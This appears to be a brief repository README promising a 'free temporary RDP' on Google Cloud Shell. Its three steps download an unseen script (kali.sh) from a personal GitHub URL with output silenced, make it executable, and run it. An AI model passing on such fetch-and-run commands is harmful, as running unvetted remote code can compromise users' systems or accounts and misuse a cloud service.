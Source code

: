 # FREE TEMPORARY RDP GOOGLE CLOUD SHELL

```
wget -O kali.sh https://raw.githubusercontent.com/FakeRajbhx/Test/main/kali.sh > /dev/null 2>&1
```

chmod +x kali.sh

./kali.sh
